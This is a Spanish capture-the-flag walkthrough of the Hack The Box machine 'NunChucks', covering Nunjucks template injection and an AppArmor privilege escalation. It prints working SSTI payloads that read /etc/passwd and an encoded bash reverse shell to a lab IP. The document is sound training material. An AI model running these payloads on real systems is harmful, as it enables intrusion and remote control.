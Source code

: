 # NunChucks

**Sistema Operativo**: Linux

**Dificultad**: Fácil

**Técnicas Vistas**: NodeJS SSTI (Server Side Template Injection) /
AppArmor Profile Bypass (Privilege Escalation)

Te prepara para las **Certificaciones**: eJPT /
eWPT<br><br>

![image](https://github.com/user-attachments/assets/4cd747b1-3746-4107-a796-38872cc4664c)<br><br>

# Reconocimiento

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/339245f0-3c9a-4303-ac50-7a6a8df7cba5)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>


Utilizando `wfuzz` Buscamos subdominios y encontramos "store" (lo metemos en el `vim /etc/hosts`)<br>

![image](https://github.com/user-attachments/assets/22306a82-dd42-443f-a63d-09f03a7f90a0)<br>

- `-c` ->  Que me reporte colores 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-H ` -> Para que me busque el subdominio<br><br>

# Explotación SSTI

En `https://store.nunchucks.htb/` Encontramos vulnerabilidad SSTI<br>


Buscamos la Query:<br>

https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine <br>

```

{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}

```
<br>
Vemos el usuario **david**<br>

![image](https://github.com/user-attachments/assets/8b58399c-c5be-4b57-828d-7d3b59506b39)<br><br>


Nos entablamos una reverse shell `{{range.constructor("return global.process.mainModule.require('child_process').execSync(' echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQzIDA+JjEK | base64 -d | bash')")()}}`<br><br>


![image](https://github.com/user-attachments/assets/dd333bf9-2db8-4ef8-be47-49b447936e9d)<br>
![image](https://github.com/user-attachments/assets/0d2213e5-ccdd-49dc-9dc6-41df78a27d43)<br><br>


# Escalamos Privilegios

Flag de usuario:<br>

![image](https://github.com/user-attachments/assets/0a277bda-0571-4b22-b61e-f01395a94d17)<br><br>


Utilizando `getcap -r / 2>/dev/null` vemos `perl` vulnerable, pero no permite escalar privilegios por que esta protegido con AppArmor.<br>

![image](https://github.com/user-attachments/assets/c086498f-05af-44dc-bf90-9d7b7c45bb27)<br><br>


##### Buscamos un bug de AppArmor con perl

AppArmor perl bugs <br>

https://bugs.launchpad.net/apparmor/+bug/1911431 -> hacer un script nombrando el shebang<br>

Me lanzo una bash privilegiada:<br>

![image](https://github.com/user-attachments/assets/ef22c059-ec72-470b-9068-a50842d6bd42)<br><br>


Le damos permisos de ejecución y ejecutamos<br>

![image](https://github.com/user-attachments/assets/2cc57373-ab7f-448b-89c0-487eac9598c0)<br><br>

Flag Final:<br>

![image](https://github.com/user-attachments/assets/c6aa6001-4d58-44c3-a877-cea5cd8eff2b)<br><br>

